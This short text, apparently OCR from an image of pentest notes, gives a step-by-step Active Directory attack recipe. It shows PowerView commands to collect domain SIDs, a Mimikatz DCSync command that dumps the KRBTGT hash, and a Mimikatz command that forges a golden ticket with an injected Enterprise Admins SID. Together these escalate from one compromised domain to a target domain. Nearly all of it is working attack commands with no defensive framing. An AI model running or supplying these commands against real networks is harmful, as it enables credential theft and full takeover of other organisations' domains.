 ### get SID of compromised domain using Bloodhound or Powerview
```
Get-DomainSID
```

### get SID of target domain using Bloodhound or Powerview
```
Get-NetForest
```

### get KRBTGT NTLM hash
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<compromisedDomain> /user:krbtgt"'
```

### request golden ticket - can be done offline, since domain controller connection is not necessary (/enind = validity period 60 minutes, /user can be fictitious, -519 is the SID of enteprise admin)
```
Invoke-Mimikatz -Command '"kerberos::golden /user:<attackerAccount> /domain:<compromisedDomain> /sid:<sidCompromisedDomain> /sids:<sidTargetDomain>-519 /krbtgt:<ntlmHashKrbTgt> /endin:60"'
```

